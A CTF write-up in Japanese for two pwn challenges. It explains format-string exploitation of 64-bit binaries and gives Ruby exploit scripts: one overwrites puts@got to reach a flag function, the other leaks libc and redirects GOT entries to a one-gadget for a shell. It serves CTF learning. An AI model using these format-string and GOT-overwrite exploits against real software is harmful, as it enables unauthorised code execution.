 ### Purchases

- FSBがある64bitバイナリで、flag出力用の関数があるのでそこに飛ばしてあげる
- 関数の最後にGOTによるアドレス解決がされていないputs関数があるので、putsのGOTをflag出力関数で上書きする
  - 末尾2byteですむので楽に書き換えられる
- **actf{limited_edition_flag}**

```ruby
#!/usr/bin/env ruby
require 'pwn'
# z = Sock.new "localhost", 9999
z = Sock.new "shell.actf.co", 19011
puts z.recvuntil "? "
z.sendline "%4534c%10$hnAAAA\x18\x40\x40"
puts z.recvuntil "else. "
puts z.recv
```

### Returns

- Purchasesのflag出力用関数が無い版でそれ以外はすべて同じ
- libcが配布されているので、FSBでlibcのアドレスリークして、GOT overwrite でOne gadgetに飛ばしてシェルを奪う
- 出力バイトの関係から分割して書き込むために、はじめに`puts@got`をmainに書き換えておき何度もFSBを使えるようにする
- `__stack_chk_fail@got`は、通常一度も呼ばれないため、ここのGOTをOne gadgetに書き換える
- 最後に、`puts@got`を`__stack_chk_fail@got`になおしてあげればOne gadgetが実行される
- **actf{no_returns_allowed}**

```ruby
#!/usr/bin/env ruby
# coding: utf-8
require 'pwn'
#z = Sock.new "localhost", 8888
z = Sock.new "shell.actf.co", 19307
context.log_level = :debug
libc = ELF.new "./libc.so.6"
#z = Sock.new "shell.actf.co", 19011
puts z.recvuntil "? "

# Leaking libc address and overwriting puts@got to the entrypoint of main function
z.sendline "%4518c%11$hnAAAABBB%17$p\x18\x40\x40"
data = z.recvuntil "? "
data = data.gsub(/\s/,"")
libc_start_main = data.match(/BBB(.*)@@\./)[1].chop.to_i(16) - 240
libc_base = libc_start_main - libc.symbols['__libc_start_main']
puts "libc base address = #{libc_base.to_s(16)}"

one_gadget = libc_base + 0xf02a4
high = (one_gadget & 0xffffffff00000000) >> 32
low = one_gadget & 0xffffffff
llow = (low & 0xffff0000) >> 16
hlow = low & 0xffff

# Overwriting __stack_chk_fail@got to one gadget RCE
payload = "%#{high}c%11$hnAAAABBBBBBB\x2c\x40\x40"
z.sendline payload
z.recvuntil "? "

payload = "%#{hlow}c%11$hnAAAABBBBBBB\x28\x40\x40"
z.sendline payload
z.recvuntil "? "

payload = "%#{llow}c%11$hnAAAABBBBBBB\x2a\x40\x40"
z.sendline payload
z.recvuntil "? "

```